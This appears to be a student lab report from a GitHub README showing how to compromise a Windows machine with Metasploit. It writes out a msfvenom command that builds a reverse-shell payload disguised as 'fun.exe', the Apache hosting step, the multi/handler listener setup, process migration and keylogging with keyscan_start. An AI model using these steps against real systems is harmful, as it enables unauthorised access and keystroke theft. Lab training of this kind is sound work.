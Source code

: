# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


### Find the attackers ip address using ifconfig

## OUTPUT :
![01](https://github.com/user-attachments/assets/21a82c4e-1b29-457f-bd28-268c2d198479)

### Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :
![02](https://github.com/user-attachments/assets/2442578b-cd17-435f-ad8e-0b8a4ff0b93d)


copy the fun.exe into the apache /var/www/html folder
sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT :
![03](https://github.com/user-attachments/assets/4b8896eb-2ea0-464f-a8c8-58483f1ee6e2)

### Invoke msfconsole:
## OUTPUT:
![04](https://github.com/user-attachments/assets/d0c299a7-87b1-4d24-886c-3b19d2ff3a43)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![05](https://github.com/user-attachments/assets/1f7364e5-4bf2-4828-8a3b-15e1667fd49a)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT :
![RECENT](https://github.com/user-attachments/assets/67c0114c-d3ca-492e-b389-1d49f6e08179)

### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads

## BROWSE OUTPUT :
![G1](https://github.com/user-attachments/assets/43d7cf32-b450-4418-a08c-f9188fd381c0)

## DOWNLOAD OUTPUT :
![G2](https://github.com/user-attachments/assets/f3a91341-7e18-4506-949d-5f000dcbe16b)

## COME BACK TO PARROT :

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![og 06](https://github.com/user-attachments/assets/4833c233-a42b-4102-8504-6d5961a1dc21)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT :
![07](https://github.com/user-attachments/assets/59f16565-bb3c-442e-9589-67c6e338a5f4)
## WINDOWS OUTPUT :
![G3](https://github.com/user-attachments/assets/6732c78a-c58b-4f80-8376-53110e54ebd8)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :
![09](https://github.com/user-attachments/assets/f9680e07-cab7-4bbc-9975-91c46f3bdd2d)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
